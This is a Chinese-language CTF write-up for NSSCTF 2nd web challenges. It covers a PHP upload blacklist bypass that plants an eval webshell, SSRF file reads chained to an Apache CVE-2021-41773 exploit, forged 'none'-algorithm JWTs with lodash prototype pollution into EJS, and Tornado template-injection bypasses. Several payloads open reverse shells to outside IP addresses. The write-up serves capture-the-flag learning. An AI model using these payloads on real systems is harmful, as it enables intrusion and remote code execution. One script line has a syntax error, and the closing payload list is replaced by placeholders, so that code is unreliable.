





# php 签到
php, 文件上传
题目描述：
<?php | |
function waf($filename){ | |
$black_list = array("ph", "htaccess", "ini"); | |
$ext = pathinfo($filename, PATHINFO_EXTENSION); | |
foreach ($black_list as $value) { | |
if (stristr($ext, $value)){ | |
return false; | |
} | |
} | |
return true; | |
} | |
if(isset($_FILES['file'])){ | |
$filename = urldecode($_FILES['file']['name']); | |
$content = file_get_contents($_FILES['file']['tmp_name']); | |
if(waf($filename)){ | |
file_put_contents($filename, $content); | |
} else { | |
echo "Please re-upload"; | |
} | |
} else{ | |
highlight_file(__FILE__); | |
} |
这题目主要知识点就是绕过黑名单限制，我们可以利用 pathinfo 函数。
pathinfo 函数在获取文件后缀名时获取 '.' 后面的内容，当出现多个 '.' 时，结果为最后一个 '.' 后面的内容。所以可以利用这个特性实现对后缀名检测的绕过。
这里我们采用 xxx.xxx/. 的方式绕过过滤，文件名为 xxx.xxx/. 时，pathinfo 函数的 PATHINFO_EXTENSION 只能得到空。
同时 xxx.xxx/. 这种文件名在被 file_put_contents 函数处理时，会解析成 xxx.xxx，原理应该是 /. 表示当前目录，至于为什么 xxx.xxx. 不行，我想应该是操作系统的原因，题目用的是 debian 系统不是 windows，应该处理不掉文件最后的.，导致无法解析。
最后的最后，还要进行一次 url 编码，否则只能解析 '/' 后面的数据。php.png/
写个脚本：
import requests | |
url = 'http://node5.anna.nssctf.cn:28510/' # 上传文件的 PHP 脚本地址 | |
file_content = "<?php @eval($_POST['cmd']); ?>" | |
files = { | |
'file': ('shell.php%2f.', file_content) | |
} | |
response = requests.post(url=url, files=files) | |
print(response.text) |
最后访问 /shell.php，用蚁剑连接，没找到 flag，那就用
phpinfo(); |
看看，果然在环境变量里：
# [NSSCTF 2nd]
脑洞 + 对脑电波
桌面上有个获取 flag，点击之后可以拿到一些细节

在开始 -> 资源管理器 中的 D 盘 中有一个 WP 里面存有提示

因为 只有 "我" 能访问 所以应该得在本机 也就是页面内执行 curl 命令
打开终端 输入 token
执行 curl https://www.nssctf.cn/flag 即可

# MyBox
任意文件读取
猜测这里存在 SSRF 漏洞。尝试伪协议读取 /etc/passwd ，成功，存在 SSRF。
/?url=file:///etc/passwd
# 非预期：
读 /start.sh 得到 flag 位置或 /proc/1/environ
# 预期
使用
/?url=file:///proc/self/cmdline
查看执行当前进程的命令行参数

可以得知是 app.py
读取源码：/?url=file:///app/app.py
from flask import Flask, request, redirect | |
import requests, socket, struct | |
from urllib import parse | |
app = Flask(__name__) | |
@app.route('/') | |
def index(): | |
if not request.args.get('url'): | |
return redirect('/?url=dosth') | |
url = request.args.get('url') | |
if url.startswith('file://'): | |
with open(url[7:], 'r') as f: | |
return f.read() | |
elif url.startswith('http://localhost/'): | |
return requests.get(url).text | |
elif url.startswith('mybox://127.0.0.1:'): | |
port, content = url[18:].split('/_', maxsplit=1) | |
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) | |
s.settimeout(5) | |
s.connect(('127.0.0.1', int(port))) | |
s.send(parse.unquote(content).encode()) | |
res = b'' | |
while 1: | |
data = s.recv(1024) | |
if data: | |
res += data | |
else: | |
break | |
return res | |
return '' | |
app.run('0.0.0.0', 827) |
存在 mybox:// 自建协议，本质就是往 port 发包。
这个其实实现了一个类似 gopher 的功能，向内网的 80 端口发个包看看返回情况，写这个包的脚本在下面：
import urllib.parse | |
test =\ | |
"""GET /xxx.php HTTP/1.1 | |
Host: 127.0.0.1:80 | |
""" | |
#注意后面一定要有回车，回车结尾表示 http 请求结束 | |
tmp = urllib.parse.quote(test) | |
new = tmp.replace('%0A','%0D%0A') | |
result = 'mybox://127.0.0.1:80/'+'_'+new | |
print(result) |
得到结果后再进行二次编码，发包发到返回状态码 404 为止，可以看见这里 Apache 的版本是 2.4.49，这个版本的 Apache 有一个路径穿越和 RCE 漏洞（CVE-2021-41773）

可以看到返回里面有提到 apache 版本是 2.4.49，这是个很明显的漏洞版本，可以直接利用 poc 弹 shell 即可：
我们用 mybox:// 协议打 CVE-2021-41773，POST 发包，执行命令反弹 shell。
import urllib.parse | |
payload =\ | |
"""POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1 | |
Host: 127.0.0.1:80 | |
Content-Type: application/x-www-form-urlencoded | |
Content-Length: 58 | |
echo;bash -c 'bash -i >& /dev/tcp/120.46.41.173/9023 0>&1' | |
""" | |
#注意后面一定要有回车，回车结尾表示 http 请求结束。 | |
tmp = urllib.parse.quote(payload) | |
new = tmp.replace('%0A','%0D%0A') | |
result = mybox://127.0.0.1:80/'+'_'+new | |
result = urllib.parse.quote(result) | |
print(result) # 这里因为是 GET 请求发包所以要进行两次 url 编码 |
import urllib | |
import urllib.parse | |
import urllib.request | |
def PAR_POST(path, content, host='127.0.0.1:80'): | |
PAR ="POST /{} HTTP/1.1\n" \ | |
"Host: {}\n" \ | |
"User-Agent: curl/7.43.0\n" \ | |
"Accept: */*\n" \ | |
"Content-Type: application/x-www-form-urlencoded\n" \ | |
"Content-Length: {}\n\n" \ | |
"{}\n".format(path, host, len(content), content) | |
print(PAR) | |
NEW_PAR = urllib.parse.quote(PAR) | |
NEW_PAR = NEW_PAR.replace('%0A','%0D%0A') | |
res = 'myboxr://127.0.0.1:80/_' + NEW_PAR | |
return urllib.parse.quote(res) | |
a=PAR_POST("cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%6 | |
5/.%%32%65/bin/sh","echo;bash -c 'bash -i >& /dev/tcp/43.137.36.145/3333 0 | |
>&1'") | |
print(a) |
两个都可以用
# MyJs
原型链污染，EJS,NodeJS,JWT
首先得知道以下信息：
# 1. JSON Web Token 是什么
JSON Web Token (JWT) 是一个开放标准 (RFC 7519)，它定义了一种紧凑的、自包含的方式，用于作为 JSON 对象在各方之间安全地传输信息。该信息可以被验证和信任，因为它是数字签名的。
# 2. 什么时候你应该用 JSON Web Token
下列场景中使用 JSON Web Token 是很有用的：
- Authorization (授权) : 这是使用 JWT 的最常见场景。一旦用户登录，后续每个请求都将包含 JWT，允许用户访问该令牌允许的路由、服务和资源。单点登录是现在广泛使用的 JWT 的一个特性，因为它的开销很小，并且可以轻松地跨域使用。
- Information Exchange (信息交换) : 对于安全的在各方之间传输信息而言，JSON Web Tokens 无疑是一种很好的方式。因为 JWT 可以被签名，例如，用公钥 / 私钥对，你可以确定发送人就是它们所说的那个人。另外，由于签名是使用头和有效负载计算的，您还可以验证内容没有被篡改。
# 3. JSON Web Token 的结构是什么样的
JSON Web Token 由三部分组成，它们之间用圆点 (.) 连接。这三部分分别是：
- Header
- Payload
- Signature
因此，一个典型的 JWT 看起来是这个样子的：
xxxxx.yyyyy.zzzzz
接下来，具体看一下每一部分：
- Header header 典型的由两部分组成：token 的类型（“JWT”）和算法名称（比如：HMAC SHA256 或者 RSA 等等）。
例如：
{}然后，用 Base64 对这个 JSON 编码就得到 JWT 的第一部分
Payload JWT 的第二部分是 payload，它包含声明（要求）。声明是关于实体 (通常是用户) 和其他数据的声明。声明有三种类型: registered, public 和 private。
- Registered claims : 这里有一组预定义的声明，它们不是强制的，但是推荐。比如：iss (issuer), exp (expiration time), sub (subject), aud (audience) 等。
- Public claims : 可以随意定义。
- Private claims : 用于在同意使用它们的各方之间共享信息，并且不是注册的或公开的声明。 下面是一个例子：
{}对 payload 进行 Base64 编码就得到 JWT 的第二部分
- Signature
为了得到签名部分，你必须有编码过的 header、编码过的 payload、一个秘钥，签名算法是 header 中指定的那个，然对它们签名即可。
例如：
HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), secret)
签名是用于验证消息在传递过程中有没有被更改，并且，对于使用私钥签名的 token，它还可以验证 JWT 的发送方是否为它所称的发送方。
# 4. JSON Web Tokens 是如何工作的
在认证的时候，当用户用他们的凭证成功登录以后，一个 JSON Web Token 将会被返回。此后，token 就是用户凭证了，你必须非常小心以防止出现安全问题。一般而言，你保存令牌的时候不应该超过你所需要它的时间。
无论何时用户想要访问受保护的路由或者资源的时候，用户代理（通常是浏览器）都应该带上 JWT，典型的，通常放在 Authorization header 中，用 Bearer schema。
header 应该看起来是这样的：
Authorization: Bearer
服务器上的受保护的路由将会检查 Authorization header 中的 JWT 是否有效，如果有效，则用户可以访问受保护的资源。如果 JWT 包含足够多的必需的数据，那么就可以减少对某些操作的数据库查询的需要，尽管可能并不总是如此。
如果 token 是在授权头（Authorization header）中发送的，那么跨源资源共享 (CORS) 将不会成为问题，因为它不使用 cookie。
# 5. 基于 Token 的身份认证 与 基于服务器的身份认证
5.1 基于服务器的身份认证
在讨论基于 Token 的身份认证是如何工作的以及它的好处之前，我们先来看一下以前我们是怎么做的：
HTTP 协议是无状态的，也就是说，如果我们已经认证了一个用户，那么他下一次请求的时候，服务器不知道我是谁，我们必须再次认证
传统的做法是将已经认证过的用户信息存储在服务器上，比如 Session。用户下次请求的时候带着 Session ID，然后服务器以此检查用户是否认证过。
这种基于服务器的身份认证方式存在一些问题：
- Sessions : 每次用户认证通过以后，服务器需要创建一条记录保存用户信息，通常是在内存中，随着认证通过的用户越来越多，服务器的在这里的开销就会越来越大。
- Scalability : 由于 Session 是在内存中的，这就带来一些扩展性的问题。
- CORS : 当我们想要扩展我们的应用，让我们的数据被多个移动设备使用时，我们必须考虑跨资源共享问题。当使用 AJAX 调用从另一个域名下获取资源时，我们可能会遇到禁止请求的问题。
- CSRF : 用户很容易受到 CSRF 攻击。
5.2. JWT 与 Session 的差异 相同点是，它们都是存储用户信息；然而，Session 是在服务器端的，而 JWT 是在客户端的。
Session 方式存储用户信息的最大问题在于要占用大量服务器内存，增加服务器的开销。
而 JWT 方式将用户状态分散到了客户端中，可以明显减轻服务端的内存压力。
Session 的状态是存储在服务器端，客户端只有 session id；而 Token 的状态是存储在客户端。
5.3. 基于 Token 的身份认证是如何工作的 基于 Token 的身份认证是无状态的，服务器或者 Session 中不会存储任何用户信息。
没有会话信息意味着应用程序可以根据需要扩展和添加更多的机器，而不必担心用户登录的位置。
虽然这一实现可能会有所不同，但其主要流程如下：
- 用户携带用户名和密码请求访问 - 服务器校验用户凭据 - 应用提供一个 token 给客户端 - 客户端存储 token，并且在随后的每一次请求中都带着它 - 服务器校验 token 并返回数据
注意：
- 每一次请求都需要 token -Token 应该放在请求 header 中 - 我们还需要将服务器设置为接受来自所有域的请求，用 Access-Control-Allow-Origin: *
5.4. 用 Token 的好处 - 无状态和可扩展性：Tokens 存储在客户端。完全无状态，可扩展。我们的负载均衡器可以将用户传递到任意服务器，因为在任何地方都没有状态或会话信息。 - 安全：Token 不是 Cookie。（The token, not a cookie.）每次请求的时候 Token 都会被发送。而且，由于没有 Cookie 被发送，还有助于防止 CSRF 攻击。即使在你的实现中将 token 存储到客户端的 Cookie 中，这个 Cookie 也只是一种存储机制，而非身份认证机制。没有基于会话的信息可以操作，因为我们没有会话！
还有一点，token 在一段时间以后会过期，这个时候用户需要重新登录。这有助于我们保持安全。还有一个概念叫 token 撤销，它允许我们根据相同的授权许可使特定的 token 甚至一组 token 无效。
5.5. JWT 与 OAuth 的区别 -OAuth2 是一种授权框架 ，JWT 是一种认证协议 - 无论使用哪种方式切记用 HTTPS 来保证数据的安全性 -OAuth2 用在使用第三方账号登录的情况 (比如使用 weibo, qq, github 登录某个 app)，而 JWT 是用在前后端分离，需要简单的对后台 API 进行保护时使用。
拿到题目的第一步先检查这个题目的源代码，发现注释中存在 /source,
打开后查看：
// 导入所需的模块
const express = require('express'); // 导入Express框架
const bodyParser = require('body-parser'); // 导入解析请求体的中间件
const lodash = require('lodash'); // 导入Lodash工具库
const session = require('express-session'); // 导入Express的会话管理中间件
const randomize = require('randomatic'); // 导入生成随机字符串的库
const jwt = require('jsonwebtoken'); // 导入JSON Web Token（JWT）的库
const crypto = require('crypto'); // 导入加密算法的库
const fs = require('fs'); // 导入文件系统模块
global.secrets = []; // 全局数组，用于存储秘钥信息
express() // 创建Express应用程序实例
.use(bodyParser.urlencoded({extended: true})) // 使用body-parser中间件来解析URL编码的请求体
.use(bodyParser.json()) // 使用body-parser中间件来解析JSON格式的请求体
.use('/static', express.static('static')) // 设置静态文件目录
.set('views', './views') // 设置视图文件的目录
.set('view engine', 'ejs') // 设置视图引擎为EJS
.use(session({ // 使用Express会话中间件配置会话选项
name: 'session', // 会话名称
secret: randomize('a', 16), // 生成随机的会话密钥
resave: true, // 重新保存会话
saveUninitialized: true // 保存未初始化的会话
}))
.get('/', (req, res) => { // 处理根路径的GET请求
if (req.session.data) { // 如果会话中有数据
res.redirect('/home'); // 重定向到主页
} else {
res.redirect('/login'); // 否则重定向到登录页面
}
})
.get('/source', (req, res) => { // 处理/source路径的GET请求
res.set('Content-Type', 'text/javascript;charset=utf-8'); // 设置响应头的Content-Type
res.send(fs.readFileSync(__filename)); // 读取当前文件内容并发送给客户端
})
.all('/login', (req, res) => { // 处理/login路径的所有HTTP方法的请求
if (req.method == "GET") { // 如果是GET请求
res.render('login.ejs', {msg: null}); // 渲染登录页面，传递空消息
}
if (req.method == "POST") { // 如果是POST请求
const {username, password, token} = req.body; // 从请求体中获取用户名、密码和令牌
const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid; // 解码令牌获取秘钥ID
if (sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
return res.render('login.ejs', {msg: 'login error.'}); // 如果秘钥ID无效，渲染登录页面并显示错误消息
}
const secret = global.secrets[sid]; // 获取对应秘钥
const user = jwt.verify(token, secret, {algorithm: "HS256"}); // 验证JWT令牌
if (username === user.username && password === user.password) { // 如果用户名和密码匹配
req.session.data = { // 存储会话数据
username: username,
count: 0,
}
res.redirect('/home'); // 重定向到主页
} else {
return res.render('login.ejs', {msg: 'login error.'}); // 如果用户名或密码不匹配，渲染登录页面并显示错误消息
}
}
})
.all('/register', (req, res) => { // 处理/register路径的所有HTTP方法的请求
if (req.method == "GET") { // 如果是GET请求
res.render('register.ejs', {msg: null}); // 渲染注册页面，传递空消息
}
if (req.method == "POST") { // 如果是POST请求
const {username, password} = req.body; // 从请求体中获取用户名和密码
if (!username || username == 'nss') {
return res.render('register.ejs', {msg: "Username existed."}); // 如果用户名为空或已存在，渲染注册页面并显示错误消息
}
const secret = crypto.randomBytes(16).toString('hex'); // 生成16字节的随机秘钥
const secretid = global.secrets.length; // 计算秘钥ID
global.secrets.push(secret); // 将秘钥存储到全局数组中
const token = jwt.sign({secretid, username, password}, secret, {algorithm: "HS256"}); // 使用秘钥签发JWT令牌
res.render('register.ejs', {msg: "Token: " + token}); // 渲染注册页面并显示生成的令牌
}
})
.all('/home', (req, res) => { // 处理/home路径的所有HTTP方法的请求
if (!req.session.data) { // 如果没有会话数据
return res.redirect('/login'); // 重定向到登录页面
}
res.render('home.ejs', { // 渲染主页
username: req.session.data.username || 'NSS',
count: req.session.data.count || '0',
msg: null
})
})
.post('/update', (req, res) => { // 处理/update路径的POST请求
if (!req.session.data) { // 如果没有会话数据
return res.redirect('/login'); // 重定向到登录页面
}
if (req.session.data.username !== 'nss') { // 如果用户名不是'nss'
return res.render('home.ejs', { // 渲染主页并显示错误消息
username: req.session.data.username || 'NSS',
count: req.session.data.count || '0',
msg: 'U cant change uid'
})
}
let data = req.session.data || {}; // 获取会话数据
req.session.data = lodash.merge(data, req.body); // 合并请求体中的数据到会话数据中
console.log(req.session.data.outputFunctionName); // 打印输出函数名称
res.redirect('/home'); // 重定向到主页
})
.listen(827, '0.0.0.0');
代码中的变量 sid 是 JWT 中的 secretid, 要求是不等于 undefined,null 等等。验证用户名时使用了函数 verify ()，verify () 指定算法正确方式应该是通过 algorithms 传入数组，而不是 algorithm，所以这里本质上传了一个空加密，导致允许空密钥，我们无法获得 JWT 密钥 (高版本已修改)。
在 algorithms 为 none 的情况下，空签名且空秘钥是被允许的；如果指定了 algorithms 为具体的某个算法，则密钥是不能为空的。在 JWT 库中，如果没指定算法，则默认使用 none 。
所以我们的目标进一步是使得代码中 JWT 解密密钥（secret）为 null 或者 undefined 。
sid 的弱比较，如果只是允许空密钥的话我们知道 secret 依然无法 verify，这里 sid 如果传个数组就能轻松绕过判断并且
这样就可以构造任意密钥为空的 JWT 口令了。
那么我们伪造 JWT 的脚本如下：
const jwt = require('jsonwebtoken'); | |
global.secrets = []; | |
var user = { | |
secretid: [], | |
username: 'nss', | |
password: '123456', | |
"iat":1693704680 | |
} | |
const secret = global.secrets[user.secretid]; | |
var token = jwt.sign(user, secret, {algorithm: 'none'}); | |
console.log(token); |
得到：eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoibnNzIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJpYXQiOjE2OTM3MDQ2ODB9.
然后账号 nss，密码 123456，token 如上登录。
以 nss 用户名登录后，于 /update 路由中我们可以构造 payload 造成 ejs 模板引擎污染。（ req.session.data = lodash.merge(data, req.body); 中的 merge 函数是原型链污染高位函数）
{ | |
"__proto__":{ | |
"client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('bash -c \"bash -i >& /dev/tcp/1.94.24.55/6666 0>&1\"');","compileDebug":true | |
} | |
} |
记得修改一下 Content-type 为 application/json ，以让服务端接受 json 请求
# MyHurricane
SSTI,Tornado
# 非预期：
又是直接读环境变量
# 预期
参考
tornado 模板注入
源码直接给了：
import tornado.ioloop | |
import tornado.web | |
import os | |
BASE_DIR = os.path.dirname(__file__) # 获取当前文件的所在目录 | |
# 自定义简单的 WAF（Web 应用防火墙）函数，用于检查输入数据是否包含特定敏感字符 | |
def waf(data): | |
blacklist = ['\'', '"', '__', '(', ')', 'or', 'and', 'not', ', '] | |
for c in blacklist: | |
if c in data: | |
return False | |
for chunk in data.split(): | |
for c in chunk: | |
if not (31 < ord(c) < 128): # 检查字符是否在可接受的 ASCII 范围内 | |
return False | |
return True | |
# 定义 Tornado 的请求处理类 | |
class IndexHandler(tornado.web.RequestHandler): | |
def get(self): | |
with open(__file__, 'r') as f: | |
self.finish(f.read()) # 读取当前文件内容并发送给客户端 | |
def post(self): | |
data = self.get_argument("ssti") # 获取 POST 请求中名为 "ssti" 的参数数据 | |
if waf(data): # 使用自定义的 WAF 函数检查输入数据 | |
with open('1.html', 'w') as f: | |
f.write(f"""<html> | |
<head></head> | |
<body style="font-size: 30px;">{data}</body></html> | |
""") # 将输入数据渲染为 HTML 页面并保存到 1.html 文件中 | |
f.flush() | |
self.render('1.html') # 渲染 1.html 并发送给客户端 | |
else: | |
self.finish('no no no') # 如果输入数据不符合 WAF 规则，则发送 "no no no" 给客户端 | |
if __name__ == "__main__": | |
app = tornado.web.Application([ | |
(r"/", IndexHandler), # 创建 Tornado 应用，将 URL 路径 "/" 映射到 IndexHandler 类 | |
], compiled_template_cache=False) # 禁用模板缓存 | |
app.listen(827) # 监听端口 827 | |
tornado.ioloop.IOLoop.current().start() # 启动 Tornado 的事件循环 |
可以看到源码过滤了`'`, `"`, `__`, `(`, `)`, `or`, `and`, `not`, `{{`, `}}`
和flask模板一样，我们可以用`{%`代替`{{`。
过滤这么多，也不是不可以执行命令。
如果没有过滤，我们的payload：
{{eval('__import__("os").popen("bash -i >& /dev/tcp/vps-ip/port 0>&1").read()')}}
有过滤的情况下我们可以使用笔记末尾武器库中的payload（适当进行替换）
import__('os').system('bash -c \'bash -i >& /dev/tcp/vps-ip/port 0>&1\'')
"""
&ssti={%autoescape None%}{% raw request.body%0a _tt_utf8=exec%}&
"""
也可以用这个：
POST:ssti={% set _tt_utf8 =eval %}{% raw request.body_arguments[request.method][0] %}&POST=__import__('os').popen("bash -c 'bash -i >%26 /dev/tcp/vps-ip/port <%261'")
# 总结
tornado 中无过滤情况下的可使用的 payload
#1、读文件 | |
<!--swig6--> | |
<!--swig7--> | |
#2、 直接使用函数 | |
<!--swig8--> | |
<!--swig9--> | |
#3、导入库 | |
<!--swig10--><!--swig11--> | |
#4、flask 中的 payload 大部分也通用 | |
<!--swig12--> | |
<!--swig13--> | |
其中"".__class__.__mro__[-1].__subclasses__()[133]为<class 'os._wrap_close'>类 | |
第二个中的x为有__builtins__的class | |
#5、利用 tornado 特有的对象或者方法 | |
<!--swig14--> | |
<!--swig15--> | |
#6、利用 tornado 模板中的代码注入 | |
<!--swig16--><!--swig17--> |